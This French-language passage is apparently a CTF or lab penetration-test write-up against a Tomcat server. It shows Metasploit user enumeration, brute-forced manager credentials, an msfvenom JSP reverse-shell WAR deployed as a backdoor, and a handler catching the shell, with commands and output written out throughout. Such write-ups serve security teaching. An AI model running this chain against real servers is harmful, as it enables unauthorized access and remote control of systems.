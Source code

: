 Pour connaître les identifiants nécessaires, nous avons utilisé le module `metasploit` suivant ainsi que cette configuration :

````shell
use auxiliary/scanner/http/tomcat_enum
set rhost 10.10.40.168
set rport 80
set targeturi /manager
run

#Sortie 
[*] http://10.10.40.168/manager - Checking j_security_check...
[*] http://10.10.40.168/manager - Server returned: 302
[*] http://10.10.40.168/manager - Apache Tomcat - Trying name: 'admin'
[+] http://10.10.40.168/manager - Apache Tomcat admin found 
[*] http://10.10.40.168/manager - Apache Tomcat - Trying name: 'manager'
[+] http://10.10.40.168/manager - Apache Tomcat manager found 
[*] http://10.10.40.168/manager - Apache Tomcat - Trying name: 'role1'
[+] http://10.10.40.168/manager - Apache Tomcat role1 found 
[*] http://10.10.40.168/manager - Apache Tomcat - Trying name: 'root'
[+] http://10.10.40.168/manager - Apache Tomcat root found 
[*] http://10.10.40.168/manager - Apache Tomcat - Trying name: 'tomcat'
[+] http://10.10.40.168/manager - Apache Tomcat tomcat found 
[*] http://10.10.40.168/manager - Apache Tomcat - Trying name: 'both'
[+] http://10.10.40.168/manager - Apache Tomcat both found 
[+] http://10.10.40.168/manager - Users found: admin, both, manager, role1, root, tomcat
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
````

Nous utilisé la méthode du bruteforce en essayant plusieurs identifiants et mots de passe, on a finalement trouvé les identifiants `User: manager` et `Password: admin` assez rapidement.

Une fois connecté, on va générer un fichier `.war` avec `msfvenom` et le déployer sur le serveur. On a donc créé une backdoor à l'adresse `http://backend.corporation-sa.com/winner`

````shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.42.11 LPORT=5555 -f war > winner.war
````

Ensuite, on a créé le `listener` à l'aide de `metasploit` comme suit :

````shell
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST 10.10.42.11
set LPORT 5555
exploit

#Attention à ne pas oublier d'aller sur l'URL adéquate
[*] Started reverse TCP handler on 10.10.42.11:5555 
[*] Command shell session 2 opened (10.10.42.11:5555 -> 10.10.40.168:49178) at 2020-10-29 17:30:44 +0000
````
